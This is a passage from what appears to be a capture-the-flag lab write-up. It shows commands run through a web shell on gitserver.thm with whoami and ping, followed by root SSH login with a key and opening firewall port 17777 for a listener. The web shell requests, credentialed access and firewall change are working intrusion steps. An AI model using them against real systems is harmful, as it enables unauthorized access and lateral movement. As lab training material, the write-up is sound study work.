 **What user is the server running as?**

nt authority\system

```┌──(root💀kali)-[/home/kali/Downloads]
└─# curl -X POST http://gitserver.thm/web/exploit-name.php -d "a=whoami"    
"nt authority\system
" 
```

```
──(root💀kali)-[/home/kali/Downloads]
└─# curl -X POST http://gitserver.thm/web/exploit-name.php -d "a=ping -n 3 10.50.185.100"
"
Pinging 10.50.185.100 with 32 bytes of data:
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 10.50.185.100:
    Packets: Sent = 3, Received = 0, Lost = 3 (100% loss),
" 
```

**How many make it to the waiting listener?**

0

To proceed further we must use the ssh credentials we have from before to login and open the port we wish to use in the firewall.
First we check which ports are already open.

```
──(root💀kali)-[/home/kali/Downloads]
└─# ssh -i id_rsa root@10.200.188.200
[root@prod-serv ~]# firewall-cmd --list-all
public (active)
  target: default
  icmp-block-inversion: no
  interfaces: eth0
  sources: 
  services: cockpit dhcpv6-client http https ssh
  ports: 10000/tcp
  protocols: 
  masquerade: no
  forward-ports: 
  source-ports: 
  icmp-blocks: 
  rich rules: 
```

And now we add a port to use.

```
[root@prod-serv ~]# firewall-cmd --zone=public --add-port 17777/tcp
success
[root@prod-serv ~]# firewall-cmd --list-all
public (active)
  target: default
  icmp-block-inversion: no
  interfaces: eth0
  sources: 
  services: cockpit dhcpv6-client http https ssh
  ports: 10000/tcp 17777/tcp
  protocols: 
  masquerade: no
  forward-ports: 
  source-ports: 
  icmp-blocks: 
```
